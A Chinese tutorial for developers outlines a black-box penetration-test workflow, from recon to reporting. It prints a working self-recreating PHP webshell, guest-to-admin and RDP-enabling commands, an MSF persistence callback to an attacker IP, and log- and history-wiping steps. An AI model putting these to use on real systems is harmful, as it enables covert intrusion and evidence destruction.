

# 8-开发安全实战 - 渗透测试流程示例

> 在应用程序上线之前，都会进行多次内部或者外部的渗透测试。对于开发而言，有必要了解下渗透测试的整体流程，从而知己知彼，避免一些开发中的问题。


## 渗透测试简介

### 渗透测试是什么

渗透测试就是利用我们所掌握的渗透知识，对网站进行一步一步的渗透，发现其中存在的漏洞和隐藏的风险，然后撰写一篇测试报告，提供给我们的客户。客户根据我们撰写的测试报告，对网站进行漏洞修补，以防止黑客的入侵！

### 渗透测试和入侵的区别

和入侵的区别是，渗透测试的前提是我们得经过用户的授权，才可以对网站进行渗透。如果我们没有经过客户的授权而对一个网站进行渗透测试的话，这是违法的。2017年6月1日我国颁布了[《网络安全法》](https://baike.baidu.com/item/中华人民共和国网络安全法/16843044?fromtitle=网络安全法&fromid=12291792&fr=aladdin)，对网络犯罪有了法律约束。

### 渗透测试分类

渗透测试分为 **白盒测试** 和 **黑盒测试**

- 白盒测试就是在知道目标网站源码和其他一些信息的情况下对其进行渗透，有点类似于代码分析
- 黑盒测试就是只告诉我们这个网站的url，其他什么都不告诉，然后让你去渗透，模拟黑客对网站的渗透

## 渗透测试流程举例

我们现在就模拟黑客对一个网站进行渗透测试，这属于黑盒测试，我们只知道该网站的URL，其他什么的信息都不知道。

接下来，我就给大家分享下黑盒渗透测试的流程和思路！



### 确定目标

- 确定范围：测试目标的范围、ip、域名、内外网、测试账户。
- 确定规则：能渗透到什么程度，所需要的时间、能否修改上传、能否提权、等等。
- 确定需求：web应用的漏洞、业务逻辑漏洞、人员权限管理漏洞、等等。

### 信息收集

- 方式：主动扫描，开放搜索等。
- 开放搜索：利用搜索引擎获得：后台、未授权页面、敏感url、等等。
- 基础信息：IP、网段、域名、端口。
- 应用信息：各端口的应用。例如web应用、邮件应用、等等。
- 系统信息：操作系统版本
- 版本信息：所有这些探测到的东西的版本。
- 服务信息：中间件的各类信息，插件信息。
- 人员信息：域名注册人员信息，web应用中发帖人的id，管理员姓名等。
- 防护信息：试着看能否探测到防护设备。

### 漏洞探测

当我们收集到了足够多的信息之后，我们就要开始对网站进行漏洞探测了。探测网站是否存在一些常见的Web漏洞，比如：

- [开发安全 - OWASP Top 10](https://pdai.tech/md/develop/security/dev-security-x-owasp.html)
- [开发安全 - 注入攻击详解](https://pdai.tech/md/develop/security/dev-security-x-injection.html)
- [开发安全 - CSRF 详解](https://pdai.tech/md/develop/security/dev-security-x-csrf.html)
- [开发安全 - XSS 详解](https://pdai.tech/md/develop/security/dev-security-x-xss.html)
- [开发安全 - DDoS 详解](https://pdai.tech/md/develop/security/dev-security-x-ddos.html)
- [开发安全 - 点击劫持详解](https://pdai.tech/md/develop/security/dev-security-x-click-hijack.html)

网站漏洞扫描工具也有很多，比如：

- AWVS
- AppScan
- Owasp-Zap
- Nessus等

### 漏洞验证

将上一步中发现的有可能可以成功利用的全部漏洞都验证一遍。结合实际情况，搭建模拟环境进行试验。成功后再应用于目标中。

**漏洞验证工具**

常用工具：

- SQL注入——> Sqlmap的使用
- XSS跨站脚本——> Beef-XSS的使用
- 抓包改包工具——> Burpsuite、Fidder
- 文件上传漏洞——> 一般会上传一句话木马上去，进而再获得webshell

但是，获得了webshell后，一般权限很低，所以我们需要提权。

其它公开资源的利用：

- exploit-db/wooyun/
- google hacking
- 渗透代码网站
- 通用、缺省口令
- 厂商的漏洞警告等等。

**漏洞验证方式**

- 自动化验证：结合自动化扫描工具提供的结果
- 手工验证，根据公开资源进行验证
- 试验验证：自己搭建模拟环境进行验证
- 登陆猜解：有时可以尝试猜解一下登陆口的账号密码等信息
- 业务漏洞验证：如发现业务漏洞，要进行验证

### 内网转发

当我们获取到了网站的Webshell之后，如果我们想获取该主机的有关信息，我们可以将该主机的webshell换成MSF的shell。直接生成一个木马，然后在菜刀中执行该木马，我们就能接收到一个MSF类型的shell了。

如果我们还想进一步的探测内网主机的信息的话，我们就需要进行内网转发了。我们是不能直接和内网的主机通信的，所以我们就需要借助获取到的webshell网站的服务器和内网主机进行通信。

### 内网横向渗透

当我们在获取了外网服务器的权限，进入该系统后，我们要想尽办法从该服务器上查找到我们想要的信息。

对于windows主机，我们应该多去翻翻目录，或许能有很多意想不到的结果。很多人习惯把账号密码等容易忘的东西存放在备忘录中，或者是桌面上。我们还可以查找数据库的连接文件，查看数据库的连接账号密码等敏感信息。当我们获得了windows主机的账号密码，或者是自己创建了新用户后，我们为了不被网站管理员发现和不破坏服务器。我们尽量不要使用远程桌面。因为使用远程桌面动静比较大，如果此时服务器管理员也在登录，而你此时通过远程桌面登录的话，会将管理员挤掉，而你也将很快的被管理员踢掉。对于实在是要远程桌面登录的情况的话，我们尽量不要新建一个用户进行登录。我们可以激活 guest 用户，然后将其加入 administrators 组里面，用 guest 用户身份登录。在RDP远程登录后，我们可以查看其他用户桌面上和其他目录有哪些软件，我们要找的目标有以下。

- FTP相关的软件
- 数据库相关的软件
- 打开浏览器，查看历史记录，查看某些网站是否保存有用户密码。利用工具查看浏览器保存的密码

从该主机上找到的账号密码，我们可以做一个字典，在对内网其他机器进行爆破的时候，很有可能是同密码。

```bash
net user  guest  /active:yes                      #激活guest用户
net localgroup  administrators  guest  /add       #将guest用户添加到
net user guest    密码                            #更改guest用户密码
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f                          #开启3389端口
```

对于Linux主机，我们可以查看开放的端口号，开放的服务，与其建立连接的内网主机。查看目录，查找网站数据库连接密码。总之，就是尽可能的多查找一些账号密码，这对于内网的账号爆破非常有用。

在搭建了隧道可以通内网后，我们首先就需要对内网进行资产发现了。但是对于内网存活网段的判断是一个大问题。内网很有可能同时存在 10.0.0.0/8、172.16.0.0/16、192.168.0.0/24 网段。这就需要我们用扫描器对其进行探测了。通过代理进行内网扫描不建议使用nmap。如果是在本地主机通过代理扫描，可以图形化界面的话，可以使用 RouterScan 、御剑高速TCP全端口扫描器、IIS_Scanner。但是注意线程调低一点，不然代理很容易崩了。如果使用命令行扫描器的话，可以使用S扫描器。在扫描了内网资产和端口开放情况后，对于445端口，就可以打一波MS17_010。但是注意通过代理打445，和之前的是不一样的。传送门——> 内网渗透之MS17-010 。对于3389端口，可以打一波CVE-2019-0708，传送门——> CVE-2019-0708 远程桌面漏洞复现 。对于1433/3306/6379等端口，可以尝试爆破，利用之前收集到的账号密码成功率更高哦。

### 权限维持

在拿到目标主机的权限后，很有可能当时我们并不能获取到想要的东西，需要进行长期的潜伏，特别是在内网渗透中，需要进行长期的信息收集。这时，权限维持就很重要了。我们需要维持住获得的现有权限。

#### Web后门

1：隐藏后门文件(将文件设置为隐藏)

2：不死马，该脚本每5秒向服务器创建test.php，并写入一句话免杀木马。结合attrib命令隐藏文件更好地建立后门。

```php
<?php
    set_time_limit(0);//程序执行时间
    ignore_user_abort(1);//关掉终端后脚本仍然运行
    unlink(__FILE__);//文件完整名
    while(1){
        file_put_contents('test.php','<?php $a=array($_REQUEST["x"]=>"3");
        $b=array_keys($a)[0];
        eval($b);?>');
        sleep(5);
    }
?>
```

3： 404页面隐藏后门，或者在其他自带文件中插入后门代码

注：以上几种后门方法均能被D盾等工具检测到

#### Windows系统

1：建立隐藏用户，在用户名后加 $

2：在开机启动目录下放置木马文件，只要目标机器重启，将回连我们的远控

3：MSF里的 persistence 模块，执行命令可以使目标机器每隔一定时间自动回连远控。但是容易被发现

```bash
#反弹时间间隔是5s 会自动连接192.168.27的4444端口，缺点是容易被杀毒软件查杀
run persistence -X -i 5 -p 8888 -r 192.168.10.27  
 
#然后它就在目标机新建了这个文件：C:\Windows\TEMP\CJzhFlNOWa.vbs ，并把该服务加入了注册表中，只要开机就会启动
```

4：在域环境下，想办法获得 krbtgt 用户的哈希，该用户的哈希可以进行票据传递攻击。而且一般该用户的密码不经常改变。

5：shift后门

6：远程桌面会话劫持

#### Linux系统

- SSH后门
- crontab定时任务
- SSH公钥
- 创建SUID=0的用户

### 痕迹清除

当我们达到了目的之后，有时候只是为了黑入网站挂黑页，炫耀一下；或者在网站留下一个后门，作为肉鸡，没事的时候上去溜达溜达；亦或者挂入挖矿木马；但是大家千万不要干这些事，这些都是违法的！

我这里只是教大家在渗透进去之后如何清除我们留下的一部分痕迹，并不能完全清除，完全清除入侵痕迹是不可能的！主要是增加管理员发现入侵者的时间成本和人力成本。只要管理员想查，无论你怎么清除，还是能查到的。

最主要还是要以隐藏自身身份为主，最好的手段是在渗透前挂上代理，然后在渗透后痕迹清除。

#### Windows系统

1：如果是windows系统，可用MSF中的 clearev 命令清除痕迹

2：如果3389远程登录过，需要清除mstsc痕迹

3：执行命令清除日志：

del %WINDR%* .log /a/s/q/f 4：如果是web应用，找到web日志文件，删除

相关文章：WINDOWS之入侵痕迹清理总结

#### Linux系统

- 如果是Linux系统，在获取权限后，执行以下命令，不会记录输入过的命令

```bash
export HISTFILE=/dev/null export HISTSIZE=0
```

- 删除 /var/log 目录下的日志文件
- 如果是web应用，找到web日志文件，删除

### 撰写渗透测试保告

在完成了渗透测试之后，我们就需要对这次渗透测试撰写渗透测试报告了。明确的写出哪里存在漏洞，以及漏洞修补的方法。以便于网站管理员根据我们的渗透测试报告修补这些漏洞和风险，防止被黑客攻击！

#### 整理信息

- 整理渗透工具：整理渗透过程中用到的代码，poc，exp等
- 整理收集信息：整理渗透过程中收集到的一切信息
- 整理漏洞信息：整理渗透过程中遇到的各种漏洞，各种脆弱位置信息

#### 给出报告

- 按需整理：按照之前第一步跟客户确定好的范围，需求来整理资料，并将资料形成报告
- 补充介绍：要对漏洞成因，验证过程和带来危害进行分析
- 修补建议：当然要对所有产生的问题提出合理高效安全的解决办法

### 流程总结


## 参考文章

- 本文主要参考自[谢公子-一次完整的渗透测试流程](https://blog.csdn.net/qq_36119192/article/details/84674109)和[渗透测试的8个步骤](https://www.freebuf.com/column/196291.html)
- https://www.freebuf.com/column/196291.html
- https://www.cnblogs.com/klb561/p/12152649.html
- https://blog.csdn.net/xl_lx/article/details/78399746